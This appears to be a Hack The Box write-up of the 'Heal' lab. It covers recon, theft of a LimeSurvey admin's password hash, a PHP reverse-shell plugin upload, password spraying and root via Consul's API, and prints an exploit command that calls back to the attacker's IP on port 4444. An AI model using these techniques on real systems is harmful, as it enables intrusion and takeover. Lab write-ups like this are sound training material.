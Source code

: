 ```yaml
---
title: Heal - HTB
date: 2025-04-26 14:00:00 +0200
categories: HTB
tags: [Linux , priv-escalation , rooted , heal]
toc: true
comments: true
image: ./assets/img/attachments/heal-1.png
imageNameKey: heal
---
```

Hey folks, Its me again with a new writeup, this is 3/1000 the journey is bit long but we are up
# Recon
**First thing, as usual, is to perform scanning.**  
I did a quick scan first (since a full scan consumes more time).  
We will work with what we find from the quick scan.
```bash
 nmap 10.10.11.46 -F -Pn -T5
```
![w](/assets/img/attachments/heal-2.png)

I couldn't open the webpage because the IP address wasn't resolved. 
```bash
─$ nslookup 10.10.11.46                            
** server can't find 46.11.10.10.in-addr.arpa: NXDOMAIN

```
 So i run nmap scan on port 80
 ```bash
 $ nmap 10.10.11.46 -sC -sV -p80          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-26 13:28 EDT
Nmap scan report for 10.10.11.46
Host is up (0.43s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://heal.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.22 seconds

```
From here I got the domain name http://heal.htb/, lets add it to /etc/hosts

![w](/assets/img/attachments/heal-3.png)

This is how the webpage looked. I tried to register but got an error saying "something went wrong," so I performed content discovery to find hidden directories.
```bash
ffuf -u http://heal.htb/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -recursion-depth 2

dirb http://heal.htb

```
Both attempts returned nothing, and the website responded with a 503 error. I went back to the main page and tried to register again but still couldn’t. At this point, I fired up Burp Suite to start analyzing the requests I was sending — maybe I could spot an injection point.

![w](/assets/img/attachments/heal-4.png)

I think that's why i couldn't register or login with default credentials, or even test for SQLi.
After adding this subdomain to /etc/hosts. I signed up.
# Initial Access
I tried command injection at input fields, but didnt work, BUT survey button directed us to this subdomain:

![w](/assets/img/attachments/heal-7.png)

which is LimeSurvey service, I couldn't get the exact version of the used service. but from the printed message we knew the administrator username **ralph**.

![w](/assets/img/attachments/heal-15.png)
Found exploit, but i don't have password for any account, and default credentials didn't work. Nothing else to do here.
Going back to burp requests:

![w](/assets/img/attachments/heal-8.png)
![w](/assets/img/attachments/heal-9.png)

Couldn't find interesting files, But at api.heal.htb found out page was written with ruby
![w](/assets/img/attachments/heal-10.png)

![w](/assets/img/attachments/heal-11.png)

Lets check those:

![w](/assets/img/attachments/heal-12.png)

Here we found ralph hashed password

![w](/assets/img/attachments/heal-13.png)
 
 Got the password, didn't work for ssh but worked for lime survey, Going back to the found exploit
 ![w](/assets/img/attachments/heal-16.png)
```bash
zip access.zip exploit.py config.xml php-rev.php 
```
![w](/assets/img/attachments/heal-17.png)

![w](/assets/img/attachments/heal-18.png)

Setting listener, then open http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php 
![w](/assets/img/attachments/heal-19.png)
![w](/assets/img/attachments/heal-23.png)
![w](/assets/img/attachments/heal-22.png)
i used this command to find config directory
```bash
find / -type d -name "config" 2>/dev/null

```
In config.php

![w](/assets/img/attachments/heal-24.png)
Did password spraying, and it worked with ron

![w](/assets/img/attachments/heal-25.png)
![w](/assets/img/attachments/heal-26.png)
# Privilege Escalation
After running linpeas 
![w](/assets/img/attachments/heal-27.png)
port 3000 and 3001 are running the same webpage 
![w](/assets/img/attachments/heal-28.png)

port 8300 didn't accept our connection while 8500 did.

![w](/assets/img/attachments/heal-29.png)

did curl to see what's version is running
```bash
curl http://127.0.0.1:8500/ui/
```
![w](/assets/img/attachments/heal-30.png)
![w](/assets/img/attachments/heal-31.png)

There is exploit for this version.

![w](/assets/img/attachments/heal-34.png)

Means no need for token parameter in this exploit

```bash
python3 exploit.py 127.0.0.1 8500 10.10.16.53 4444 ""
```
![w](/assets/img/attachments/heal-32.png)

![w](/assets/img/attachments/heal-33.png)
And Rooted!
In conclusion, exploiting Consul's unprotected API on port 8500 allowed root access through a malicious service registration, emphasizing the necessity of strict ACL enforcement and vigilant system monitoring to thwart privilege escalation.
Catch you later!
